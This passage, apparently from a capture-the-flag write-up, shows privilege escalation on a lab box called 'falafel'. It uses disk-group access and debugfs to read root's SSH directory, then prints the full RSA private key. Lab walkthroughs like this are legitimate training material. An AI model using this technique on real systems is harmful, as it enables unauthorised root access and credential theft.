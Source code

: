We’re in! Run the _id_ command to view the real and effective user ids for the _yossi_ user.

```text
yossi@falafel:~$ id
uid=1000(yossi) gid=1000(yossi) groups=1000(yossi),4(adm),6(disk),24(cdrom),30(dip),46(plugdev),117(lpadmin),118(sambashare)
```

The user is part of the group _disk_, which gives the user full access to any block devices contained within _/dev/_. Having access to this is almost equivalent to root access.

```text
yossi@falafel:~$ ls -la /dev/sda1
brw-rw---- 1 root disk 8, 1 Jan 30 19:49 /dev/sda1
```

We can use _debugfs_ to enumerate the entire disk with effectively root level privileges.

```text
yossi@falafel:~$ debugfs /dev/sda1
debugfs 1.42.13 (17-May-2015)
debugfs:  cd /root
debugfs:  ls
debugfs:  cd .ssh
debugfs:  ls
debugfs:  cat id_rsa
-----BEGIN RSA PRIVATE KEY-----
MIIEpAIBAAKCAQEAyPdlQuyVr/L4xXiDVK8lTn88k4zVEEfiRVQ1AWxQPOHY7q0h
b+Zd6WPVczObUnC+TaElpDXhf3gjLvjXvn7qGuZekNdB1aoWt5IKT90yz9vUx/gf
v22+b8XdCdzyXpJW0fAmEN+m5DAETxHDzPdNfpswwYpDX0gqLCZIuMC7Z8D8Wpkg
BWQ5RfpdFDWvIexRDfwj/Dx+tiIPGcYtkpQ/UihaDgF0gwj912Zc1N5+0sILX/Qd
UQ+ZywP/qj1FI+ki/kJcYsW/5JZcG20xS0QgNvUBGpr+MGh2urh4angLcqu5b/ZV
dmoHaOx/UOrNywkp486/SQtn30Er7SlM29/8PQIDAQABAoIBAQCGd5qmw/yIZU/1
eWSOpj6VHmee5q2tnhuVffmVgS7S/d8UHH3yDLcrseQhmBdGey+qa7fu/ypqCy2n
gVOCIBNuelQuIAnp+EwI+kuyEnSsRhBC2RANG1ZAHal/rvnxM4OqJ0ChK7TUnBhV
+7IClDqjCx39chEQUQ3+yoMAM91xVqztgWvl85Hh22IQgFnIu/ghav8Iqps/tuZ0
/YE1+vOouJPD894UEUH5+Bj+EvBJ8+pyXUCt7FQiidWQbSlfNLUWNdlBpwabk6Td
OnO+rf/vtYg+RQC+Y7zUpyLONYP+9S6WvJ/lqszXrYKRtlQg+8Pf7yhcOz/n7G08
kta/3DH1AoGBAO0itIeAiaeXTw5dmdza5xIDsx/c3DU+yi+6hDnV1KMTe3zK/yjG
UBLnBo6FpAJr0w0XNALbnm2RToX7OfqpVeQsAsHZTSfmo4fbQMY7nWMvSuXZV3lG
ahkTSKUnpk2/EVRQriFjlXuvBoBh0qLVhZIKqZBaavU6iaplPVz72VvLAoGBANj0
GcJ34ozu/XuhlXNVlm5ZQqHxHkiZrOU9aM7umQkGeM9vNFOwWYl6l9g4qMq7ArMr
5SmT+XoWQtK9dSHVNXr4XWRaH6aow/oazY05W/BgXRMxolVSHdNE23xuX9dlwMPB
f/y3ZeVpbREroPOx9rZpYiE76W1gZ67H6TV0HJcXAoGBAOdgCnd/8lAkcY2ZxIva
xsUr+PWo4O/O8SY6vdNUkWIAm2e7BdX6EZ0v75TWTp3SKR5HuobjVKSht9VAuGSc
HuNAEfykkwTQpFTlmEETX9CsD09PjmsVSmZnC2Wh10FaoYT8J7sKWItSzmwrhoM9
BVPmtWXU4zGdST+KAqKcVYubAoGAHR5GBs/IXFoHM3ywblZiZlUcmFegVOYrSmk/
k+Z6K7fupwip4UGeAtGtZ5vTK8KFzj5p93ag2T37ogVDn1LaZrLG9h0Sem/UPdEz
HW1BZbXJSDY1L3ZiAmUPgFfgDSze/mcOIoEK8AuCU/ejFpIgJsNmJEfCQKfbwp2a
M05uN+kCgYBq8iNfzNHK3qY+iaQNISQ657Qz0sPoMrzQ6gAmTNjNfWpU8tEHqrCP
NZTQDYCA31J/gKIl2BT8+ywQL50avvbxcXZEsy14ExVnaTpPQ9m2INlxz97YLxjZ
FEUbkAlzcvN/S3LJiFbnkQ7uJ0nPj4oPw1XBcmsQoBwPFOcCEvHSrg==
-----END RSA PRIVATE KEY-----
debugfs:  quit
```
